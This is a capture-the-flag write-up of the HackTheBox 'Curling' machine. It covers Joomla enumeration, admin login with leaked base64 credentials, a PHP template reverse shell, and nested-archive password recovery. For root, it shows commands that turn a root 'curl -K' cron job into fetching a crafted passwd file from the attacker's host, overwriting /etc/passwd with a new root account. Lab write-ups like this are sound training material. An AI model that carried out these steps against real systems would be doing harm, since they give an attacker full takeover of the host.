







# Curling (`10.10.10.150`)

## Summary

`Joomla` on port 80. `gobuster` shows me a `base64` encoded password in a `secret.txt` file on a webserver. I find a username in a signature block on a post on the forum. Those creds work together for the `Joomla` admin page. I get a reverse shell by exploiting Joomla PHP templates. I escalate from `www-data` to `floris` after finding her password entomed in a matryoshka doll of compressed files. I then exploit a `cronjob` running `curl -K` to become `root`.

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `curling.htb` to `10.10.10.150`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports curling.htb
# Nmap 7.91 scan initiated Wed Jan 20 01:22:14 2021 as: nmap -A -v -p- -Pn -oN allports curling.htb
Nmap scan report for curling.htb (10.10.10.150)
Host is up (0.040s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Aggressive OS guesses: Linux 3.18 (94%), Linux 3.2 - 4.9 (94%), Linux 3.16 (93%), Crestron XPanel control system (93%), ASUS RT-N56U WAP (Linux 3.4) (92%), Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), DD-WRT v3.0 (Linux 4.4.2) (90%), Linux 4.10 (90%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 38.986 days (since Sat Dec 12 01:43:41 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   40.71 ms 10.10.14.1
2   40.77 ms curling.htb (10.10.10.150)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 20 01:22:52 2021 -- 1 IP address (1 host up) scanned in 38.23 seconds
```



I run `joomscan` but it doesn't find much of anything.

```bash
$ joomscan --url http://curling.htb --enumerate-components
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://curling.htb ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.8.8

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing :
http://curling.htb/administrator/components
http://curling.htb/administrator/modules
http://curling.htb/administrator/templates
http://curling.htb/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://curling.htb/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found

[+] Enumeration component (com_ajax)
[++] Name: com_ajax
Location : http://curling.htb/components/com_ajax/
Directory listing is enabled : http://curling.htb/components/com_ajax/


[+] Enumeration component (com_banners)
[++] Name: com_banners
Location : http://curling.htb/components/com_banners/
Directory listing is enabled : http://curling.htb/components/com_banners/


[+] Enumeration component (com_contact)
[++] Name: com_contact
Location : http://curling.htb/components/com_contact/
Directory listing is enabled : http://curling.htb/components/com_contact/


[+] Enumeration component (com_content)
[++] Name: com_content
Location : http://curling.htb/components/com_content/
Directory listing is enabled : http://curling.htb/components/com_content/


[+] Enumeration component (com_contenthistory)
[++] Name: com_contenthistory
Location : http://curling.htb/components/com_contenthistory/
Directory listing is enabled : http://curling.htb/components/com_contenthistory/


[+] Enumeration component (com_fields)
[++] Name: com_fields
Location : http://curling.htb/components/com_fields/
Directory listing is enabled : http://curling.htb/components/com_fields/


[+] Enumeration component (com_finder)
[++] Name: com_finder
Location : http://curling.htb/components/com_finder/
Directory listing is enabled : http://curling.htb/components/com_finder/


[+] Enumeration component (com_mailto)
[++] Name: com_mailto
Location : http://curling.htb/components/com_mailto/
Directory listing is enabled : http://curling.htb/components/com_mailto/
Installed version : 3.1


[+] Enumeration component (com_media)
[++] Name: com_media
Location : http://curling.htb/components/com_media/
Directory listing is enabled : http://curling.htb/components/com_media/


[+] Enumeration component (com_newsfeeds)
[++] Name: com_newsfeeds
Location : http://curling.htb/components/com_newsfeeds/
Directory listing is enabled : http://curling.htb/components/com_newsfeeds/


[+] Enumeration component (com_search)
[++] Name: com_search
Location : http://curling.htb/components/com_search/
Directory listing is enabled : http://curling.htb/components/com_search/


[+] Enumeration component (com_users)
[++] Name: com_users
Location : http://curling.htb/components/com_users/
Directory listing is enabled : http://curling.htb/components/com_users/


[+] Enumeration component (com_wrapper)
[++] Name: com_wrapper
Location : http://curling.htb/components/com_wrapper/
Directory listing is enabled : http://curling.htb/components/com_wrapper/
Installed version : 3.1
```

```bash
gobuster dir -u http://curling.htb/ -w /home/kali/OSCP/tools/wordlists/merged.txt -s 200,204,301,302,307,403,500 --timeout 15s -e -k -x "txt,html,php,asp,aspx,jsp" -t 30 -o gobuster_80.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://curling.htb/
[+] Threads:        30
[+] Wordlist:       /home/kali/OSCP/tools/wordlists/merged.txt
[+] Status codes:   200,204,301,302,307,403,500
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     jsp,txt,html,php,asp,aspx
[+] Expanded:       true
[+] Timeout:        15s
===============================================================
2021/01/20 04:22:32 Starting gobuster
===============================================================
http://curling.htb/administrator (Status: 301)
http://curling.htb/bin (Status: 301)
http://curling.htb/bin (Status: 301)
http://curling.htb/cache (Status: 301)
http://curling.htb/cli (Status: 301)
http://curling.htb/cli (Status: 301)
http://curling.htb/components (Status: 301)
http://curling.htb/configuration.php (Status: 200)
http://curling.htb/.hta (Status: 403)
http://curling.htb/.hta.html (Status: 403)
http://curling.htb/.hta.php (Status: 403)
http://curling.htb/.hta.asp (Status: 403)
http://curling.htb/.hta.aspx (Status: 403)
http://curling.htb/.hta.jsp (Status: 403)
http://curling.htb/.hta.txt (Status: 403)
http://curling.htb/.htaccess (Status: 403)
http://curling.htb/.htaccess.aspx (Status: 403)
http://curling.htb/.htaccess (Status: 403)
http://curling.htb/.htaccess.jsp (Status: 403)
http://curling.htb/.htaccess.asp (Status: 403)
http://curling.htb/.htaccess.txt (Status: 403)
http://curling.htb/.htaccess.html (Status: 403)
http://curling.htb/.htaccess.php (Status: 403)
http://curling.htb/.htaccess.asp (Status: 403)
http://curling.htb/.htaccess.aspx (Status: 403)
http://curling.htb/.htaccess.jsp (Status: 403)
http://curling.htb/.htaccess.txt (Status: 403)
http://curling.htb/.htaccess.html (Status: 403)
http://curling.htb/.htaccess.php (Status: 403)
http://curling.htb/htaccess.txt (Status: 200)
http://curling.htb/htaccess.txt (Status: 200)
http://curling.htb/.htpasswd (Status: 403)
http://curling.htb/.htpasswd.php (Status: 403)
http://curling.htb/.htpasswd.asp (Status: 403)
http://curling.htb/.htpasswd.aspx (Status: 403)
http://curling.htb/.htpasswd.jsp (Status: 403)
http://curling.htb/.htpasswd.txt (Status: 403)
http://curling.htb/.htpasswd.html (Status: 403)
http://curling.htb/.htpasswd (Status: 403)
http://curling.htb/.htpasswd.txt (Status: 403)
http://curling.htb/.htpasswd.html (Status: 403)
http://curling.htb/.htpasswd.php (Status: 403)
http://curling.htb/.htpasswd.asp (Status: 403)
http://curling.htb/.htpasswd.aspx (Status: 403)
http://curling.htb/.htpasswd.jsp (Status: 403)
http://curling.htb/images (Status: 301)
http://curling.htb/images (Status: 301)
http://curling.htb/includes (Status: 301)
http://curling.htb/index.php (Status: 200)
http://curling.htb/index.php (Status: 200)
http://curling.htb/language (Status: 301)
http://curling.htb/layouts (Status: 301)
http://curling.htb/layouts (Status: 301)
http://curling.htb/libraries (Status: 301)
http://curling.htb/libraries (Status: 301)
http://curling.htb/LICENSE.txt (Status: 200)
http://curling.htb/LICENSE.txt (Status: 200)
http://curling.htb/media (Status: 301)
http://curling.htb/media (Status: 301)
http://curling.htb/modules (Status: 301)
http://curling.htb/modules (Status: 301)
http://curling.htb/plugins (Status: 301)
http://curling.htb/README.txt (Status: 200)
http://curling.htb/README.txt (Status: 200)
http://curling.htb/secret.txt (Status: 200)
http://curling.htb/secret.txt (Status: 200)
http://curling.htb/server-status (Status: 403)
http://curling.htb/server-status (Status: 403)
http://curling.htb/templates (Status: 301)
http://curling.htb/templates (Status: 301)
http://curling.htb/tmp (Status: 301)
http://curling.htb/web.config.txt (Status: 200)
```

```bash
$ curl http://curling.htb/secret.txt 2>/dev/null | base64 -d
Curling2018!
```



`floris:Curling2018!` works!


The credentials also work here:




## Reverse Shell

I go to `Extensions > Templates` and select `Beez3`.

I modify `index.php` to contain a PHP reverse shell from pentestmonkey, set to my IP address.



I start a `nc` listener and I then click `Template Preview`.



## Upgrading Shell



## Privilege Escalation to `floris`

```bash
www-data@curling:/home/floris$ cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

```bash
$ cat xxd-output.txt
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H

$ xxd -r xxd-output.txt > password_backup.bin

$ file password_backup.bin
password_backup.bin: bzip2 compressed data, block size = 900k

$ mv password_backup.bin password_backup.bz2
renamed 'password_backup.bin' -> 'password_backup.bz2'

$ bzip2 -d password_backup.bz2

$ ls
password_backup
xxd-output.txt

$ file password_backup
password_backup: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141

$ mv password_backup password_backup.gz
renamed 'password_backup' -> 'password_backup.gz'

$ gunzip password_backup.gz

$ ls
password_backup
xxd-output.txt

$ file password_backup
password_backup: bzip2 compressed data, block size = 900k

$ bzip2 -d password_backup
bzip2: Can't guess original name for password_backup -- using password_backup.out

$ file password_backup.out
password_backup.out: POSIX tar archive (GNU)

$ tar -xvf password_backup.out
password.txt

$ ls
password.txt
password_backup.out
xxd-output.txt

$ cat password.txt
5d<wdCbdZu)|hChXll
```



## Privilege Escalation to `root`

`pspy64` shows me this sequence of events happening.

```
2021/01/20 11:09:01 CMD: UID=0    PID=3306   | sleep 1
2021/01/20 11:09:01 CMD: UID=0    PID=3305   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input
2021/01/20 11:09:01 CMD: UID=0    PID=3303   | /usr/sbin/CRON -f
2021/01/20 11:09:01 CMD: UID=0    PID=3302   | /usr/sbin/CRON -f
2021/01/20 11:09:01 CMD: UID=0    PID=3308   | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
2021/01/20 11:09:01 CMD: UID=0    PID=3307   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

This part of the curl command is exploitable: `curl -K /home/floris/admin-area/input`. `-K` is a switch that sets a config file. I have write permissions to that file, since I am a member of the `floris` group.

```bash
floris@curling:~$ groups
floris

floris@curling:~/admin-area$ ls -l
total 20
-rw-rw---- 1 root floris    25 Jan 20 11:06 input
-rw-rw---- 1 root floris 14236 Jan 20 11:06 report
```

I can overwrite `/etc/passwd` using the `output` setting in the config file, and add a root user whose password I set.

I grab `/etc/passwd`.

```bash
floris@curling:~/admin-area$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
floris:x:1000:1004:floris:/home/floris:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

Add this `root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash` line in, adding a root user with the creds `root2:evil`, and serve it from my local machine with `$ sudo python3 -m http.server 80`. I'll modify `input` to be the following:

```bash
$ echo -e "url = \"http://10.10.14.10/passwd\"\noutput = /etc/passwd" > input
floris@curling:~/admin-area$ cat input
url = "http://10.10.14.10/passwd"
output = /etc/passwd
```

I wait until the file is pulled from my Kali host.

```
$ sudo python3 -m http.server 80
...
10.10.10.150 - - [20/Jan/2021 06:19:04] "GET /passwd HTTP/1.1" 200 -
```

And I become `root`.

```bash
floris@curling:~/admin-area$ su root2
Password:
root@curling:/home/floris/admin-area# id
uid=0(root) gid=0(root) groups=0(root)
```